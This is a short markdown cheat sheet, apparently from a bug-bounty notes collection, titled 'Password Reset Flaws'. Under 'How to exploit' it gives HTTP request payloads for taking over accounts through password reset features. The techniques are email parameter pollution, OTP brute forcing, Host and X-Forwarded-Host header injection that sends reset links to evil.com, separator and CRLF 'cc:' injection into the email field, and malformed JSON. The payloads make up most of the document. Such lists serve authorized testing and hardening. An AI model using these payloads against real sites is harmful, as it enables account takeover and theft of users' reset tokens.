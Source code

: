## Password Reset Flaws

## Introduction
Common security flaws in password reset functionality

## How to exploit
1. Parameter pollution in reset password
```
POST /reset
[...]
email=victim@mail.com&email=hacker@mail.com
```

2. Bruteforce the OTP code
```
POST /reset
[...]
email=victim@mail.com&code=$123456$
```

3. Host header Injection
```
POST /reset
Host: evil.com
[...]
email=victim@mail.com
```
```
POST /reset
Host: target.com
X-Forwarded-Host: evil.com
[...]
email=victim@mail.com
```
And the victim will receive the reset link with evil.com

4. Using separator in value of the parameter
```
POST /reset
[...]
email=victim@mail.com,hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%20hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com|hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%00hacker@mail.com
```

5. No domain in value of the paramter
```
POST /reset
[...]
email=victim
```

6. No TLD in value of the parameter
```
POST /reset
[...]
email=victim@mail
```

7. Using carbon copy
```
POST /reset
[...]
email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. If there is JSON data in body requests, add comma
```
POST /newaccount
[...]
{"email":"victim@mail.com","hacker@mail.com","token":"xxxxxxxxxx"}
```

9. Find out how the tokens generate
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user

## References
* [anugrahsr](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)
* [Frooti](https://twitter.com/HackerGautam/status/1502264873287569414)